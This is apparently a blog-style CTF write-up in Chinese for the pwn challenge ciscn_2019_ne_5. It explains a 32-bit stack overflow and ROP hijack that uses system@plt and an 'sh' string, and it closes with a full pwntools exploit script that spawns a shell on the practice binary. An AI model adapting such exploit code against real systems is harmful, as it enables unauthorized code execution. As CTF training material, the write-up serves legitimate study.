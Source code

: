 ```yaml
---
title: 'ciscn_2019_ne_5'
date: 2023-12-30 13:00:00 +0800
categories: [32bit,rop]
tags: [ctf,pwn]
---
```

![image-20231228210913917](../assets/img/old_imgs/image-20231228210913917.png)

- `32`位`ROP`劫持

- 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  ![image-20231228211113719](../assets/img/old_imgs/image-20231228211113719.png)

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```
